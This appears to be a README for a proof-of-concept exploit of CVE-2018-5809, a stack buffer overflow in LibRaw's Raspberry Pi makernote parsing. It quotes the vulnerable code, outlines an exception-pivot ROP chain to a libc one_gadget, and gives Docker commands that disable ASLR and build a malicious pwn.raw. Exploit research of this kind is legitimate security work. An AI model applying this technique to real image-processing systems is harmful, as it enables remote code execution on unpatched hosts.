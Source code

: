# [CVE-2018-5809]

## The bug

[CVE-2018-5809] was fixed in [LibRaw commit `fd63302`](https://github.com/LibRaw/LibRaw/commit/fd6330292501983ac75fe4162275794b18445bd9).

This is [the vulnerable codepath](https://github.com/LibRaw/LibRaw/blob/5161244b5dde388ec8f99ec4d695cda4dafd07b6/dcraw/dcraw.c#L11079-L11090), an attacker-controlled amount of bytes are read from the makernotes exif tag into the stack-based buffer `mn_text` for specific Raspberry Pi raw images:

```c
  while (entries--) {
    tiff_get (base, &tag, &type, &len, &save);
    // ...
    switch(tag) {
      // ...
      case 37500:  	                         // tag 0x927c
#ifdef LIBRAW_LIBRARY_BUILD
       if (((make[0] == '\0') && (!strncmp(model, "ov5647",6))) ||
           ((!strncmp(make, "RaspberryPi",11)) && (!strncmp(model, "RP_OV5647",9))) ||
           ((!strncmp(make, "RaspberryPi",11)) && (!strncmp(model, "RP_imx219",9)))) {
         char mn_text[512];
         /// ...
         fgets(mn_text, len, ifp);
         /// ...
       }
       else
#endif
        parse_makernote (base, 0);
    }
  }
```

A throw statement is not directly reachable in the RaspberryPi makernote code path, however for other make/model combinations, an error in the parsing of the makernote can cause an exception to be thrown in `parse_makernote`.

[CVE-2018-5809]: https://nvd.nist.gov/vuln/detail/CVE-2018-5809

## LibRaw

We're targeting LibRaw through the `raw-identify` binary.

## The exploit

Trigger the stack buffer overflow, overwriting the make in of the image farther up the stack, so we can trigger a throw in a subsequent iteration of `parse_exif`, parsing a fake nikon makernote.

We then target a [pivot2rop handler](https://github.com/LibRaw/LibRaw/blob/5161244b5dde388ec8f99ec4d695cda4dafd07b6/src/libraw_cxx.cpp#L5701-L5704), and overwrite the return address to a libc [one_gadget] address.

ASLR is disabled using the `setarch` command, and load addresses are calculated using `ldd`. This requires the `personality` syscall with the `ADDR_NO_RANDOMIZE` (`0x40000`) parameter, which is blocked by the [default docker seccomp ruleset]. The provided [seccomp ruleset](./allow-personality-no-aslr.json) expands the default docker seccomp ruleset and adds a rule allowing this syscall. The container entrypoint then disables ASLR for all child processes.

[one_gadget]: https://github.com/david942j/one_gadget
[default docker seccomp ruleset]: https://github.com/moby/moby/blob/master/profiles/seccomp/default.json

## Running the POC

```bash
docker build -t chop:cve-2018-5809 .
docker run -it --security-opt seccomp=$(pwd)/allow-personality-no-aslr.json chop:cve-2018-5809
```

```bash
# normal execution
$ ./raw-identify rpi.raw
rpi.raw is a Broadcom RPi IMX219 image.
$ ./demo
# ...
[+] Created Payload Image: pwn.raw
# run the exploit payload
$ ./raw-identify pwn.raw
```
